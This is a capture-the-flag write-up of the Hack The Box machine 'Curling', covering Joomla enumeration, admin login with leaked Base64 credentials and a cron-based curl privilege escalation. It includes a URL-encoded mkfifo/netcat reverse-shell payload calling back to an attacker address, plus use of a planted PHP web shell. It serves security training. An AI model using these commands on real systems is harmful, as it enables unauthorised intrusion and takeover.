# Curling Writeup - by Thammanant Thamtaranon  
- Curling is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I began with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- -Pn 10.10.10.150`  
    
- The scan revealed the following open ports:  
  - **22** — SSH  
  - **80** — HTTP  

## Scanning & Enumeration  
- From the Nmap scan, we identified that the CMS is **Joomla**, so we conducted enumeration using Joomscan:  
  `joomscan --url 10.10.10.150 --enumerate-components`  
    
- Joomscan did not reveal any critical findings.

## Exploitation  
- Visiting the webpage and reading the blog revealed the username **Floris**.  
- Inspecting the HTML source code disclosed a file named `secret.txt`.  
    
- Navigating to `http://10.10.10.150/secret.txt` revealed an encoded string.  
    
- Decoding the string in CyberChef showed that it was Base64-encoded credentials.  
    
- Using these credentials, I logged into the Joomla administrator panel at `/administrator`.  
    
- We navigated to the Template Manager → selected a template → created a new file with a `.php` extension → inserted a PHP web shell → and saved it.  
    
- Accessing the web shell via  
  `http://10.10.10.150/templates/beez3/shell.php?cmd=id`  
  confirmed remote command execution.  
    
- We executed a reverse shell payload:  
  `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.16.3%204444%20%3E%2Ftmp%2Ff`  
  and successfully obtained a reverse shell.  
    
- Navigating to `/home/floris`, we found a file named `password_backup`.  
    
- Decoding it in CyberChef revealed Floris’s SSH password.  
    
- We then authenticated via SSH as Floris.  
    
- The user flag was retrieved.

## Privilege Escalation  
- Running `sudo -l` confirmed that Floris did not have sudo privileges.  
- We uploaded the static version of **pspy64** to monitor running processes.  
- pspy revealed a recurring cron job executing:  
  **`curl -K`**  
    
- We compiled a custom binary `root.c` using:  
  `gcc -o root root.c -static`  
  The `-static` flag was used to avoid the previous error:  
  `/lib/x86_64-linux-gnu/libc.so.6: version 'GLIBC_2.34' not found`  
    
- We then modified the `input` file used by the curl `-K` option to execute our malicious binary.  
    
    
- After triggering the cron execution by running `/bin/ping`, we obtained a root shell.  
    
- We captured the root flag.
